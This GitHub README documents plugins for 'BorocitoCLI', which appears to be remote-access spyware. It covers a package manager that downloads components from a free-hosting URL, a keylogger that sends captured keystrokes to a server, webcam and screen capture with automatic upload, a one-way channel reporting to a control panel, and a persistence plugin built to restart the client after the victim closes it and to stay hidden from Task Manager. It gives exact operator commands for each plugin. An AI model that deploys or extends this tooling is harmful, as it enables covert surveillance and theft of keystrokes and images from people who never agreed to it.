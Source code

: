 # borocito-components
Complementos para Borocito CLI

## Complements
These plugins were created to enrich the experience with BorocitoCLI.

They're not perfect, but they're not disappointing either. Well, it really depends on how they're made. I invite you to contribute to the development of these, if there is something, an error, bug, an idea, etc, contribute, I will greatly appreciate it, and those of us who use these complements too.

### Using it
All plugins here, except for the 'boro-get' package manager, were created by Zhenboro. Yeah, and besides the fact that I made them, they need to be installed by 'boro-get'.
boro-get is a module within BorocitoCLI. It's totally inside, well implemented. So, initially, there should be no problem.

#### boro-get
This must be installed, by default it is not implemented. It should be installed using the command `boro-get install`, to check if it is installed or not, use `boro-get status`, if it is already installed, great!
Now, if you want to be sure the latest version is installed, use `boro-get uninstall`, that will uninstall boro-get. Then you can use the `boro-get install` command to download and install the latest version available on the server indicated in the file: GlobalSettings.ini
```sh
[Components]
boro-get=http://chemic-jug.000webhostapp.com/Borocito/Boro-Get/boro-get.zip
```
Now that boro-get is installed. We can start installing and using the packages.

We can install a package with the command `boro-get <package> <start?> <parameters>`
An example with broKiloger:
`boro-get broKiloger True /startrecording`
If the package does not require an argument:
`boro-get broKiloger`
(<start?> will be marked as True, the package will start)

If you don't want to start it (just download and install it)
`boro-get broKiloger False null`

>NOTE: 'null' is a reserved word, it will be very useful!

Now we are going to define a concept.
**Single Instance Package**: A package with this warning means that only one instance of it will be started. Just one.
These are designed to do unique unrepeatable things. Like a keylogger. This is something global, why another instance?
Also, they can receive parameters when they are already started, so you can control them.

### boro-hear
boro-hear is a module that allows plugins to communicate (one-way C->S) with the Control Panel.

If you make a plugin, you can make it send messages to the control panel. In your code you should put something like [this code](https://github.com/Zhenboro/borocito-components/blob/e7eda70b99cfcfa2ea3a66223cc3564703051f29/broKiloger/Utility.vb#L8-L51).
That will start an instance of boro-hear which will send your message to the server. boro-hear is single-instance, but messages can be sent by passing parameters to it. These are picked up by boro-hear via the StartUpNextInstance event.


### broEstoraje
This plugin is not coded yet.
It is used to explore files. Basically [RMTFS](https://github.com/Zhenboro/RMTFS) adapted to work with FTP (or IDFTP).

### broKiloger
broKiloger is a plugin dedicated to logging keys.

> NOTE: Single Instance Package

Your options are:
```sh
/startrecording: It will start key recording.
boro-get broKiloger True /startrecording
```
```sh
/stoprecording: It will stop the key recording and broKiloger will close.
boro-get broKiloger True /stoprecording
```
> NOTE: It will not save or send the record.

```sh
/sendrecord: It will send the keylogger and then start recording again.
boro-get broKiloger True /sendrecord
```

```sh
/resetrecord: It will clean the keylogger.
boro-get broKiloger True /resetrecord
```
> NOTE: It will not save or send the record.

```sh
/sendandexit: It will send the keylogging and then broKiloger will close.
boro-get broKiloger True /sendandexit
```

### broRescue
This plugin was created because it turns out that sometimes an instance of BorocitoCLI can be closed by some external or internal factor. Perhaps the user noticed the presence and closed it, or, a command left a mess that BorocitoCLI couldn't handle.
For this reason, broRescue is a good recommendation that it be installed.
**And what does it do?**
Well it's simple. If you notice that BorocitoCLI has closed. You can make broRescue restart the BorocitoCLI instance by using the command:
`broRescue Borocito`
and not only that, you can also start the extractor, or the updater.
To do this, the commands will be:
`broRescue Extractor`
`broRescue Updater`
Or even restart the computer with the command:
`broRescue Restart`
This packet reads directly from the server. Every 20 minutes. So yes, you will notice the effect in 20 minutes. And that is done so as not to load the server, and also so that it is not noticed from the task manager.

### broScrincam
This plugin is for:
- Take photos from a Webcam
- Record video from a Webcam
- Record screen

> NOTE: Single Instance Package

```sh
/startscreenrecording: (will try) record the screen.
boro-get broScrincam True /startscreenrecording
```

```sh
/stopscreenrecording: It is supposed to stop screen recording. That part is not scheduled yet.
boro-get broScrincam True /stopscreenrecording
```
> NOTE: It will not save or send the record. Not coded yet.

```sh
/startcamrecording: It will start to record video from the webcam
boro-get broScrincam True /startcamrecording
```

```sh
/takecampicture: It will take a screenshot of the webcam
boro-get broScrincam True /takecampicture
```
> NOTE: It will be sent automatically.

```sh
/stopcamrecording: It will stop the Webcam recording.
boro-get broScrincam True /stopcamrecording
```
> NOTE: It will not save or send the record.

```sh
/sendscreenrecord: It is supposed to stop, save and send the screen recording. This part is not coded yet.
boro-get broScrincam True /sendscreenrecord
```
> NOTE: Not coded yet.

```sh
/sendcamrecord: It will stop the Webcam recording and send it automatically.
boro-get broScrincam True /sendcamrecord
```
> NOTE: It will be sent automatically.

```sh
/stop: It will send the keylogger and then start recording again.
boro-get broScrincam True /stop
```

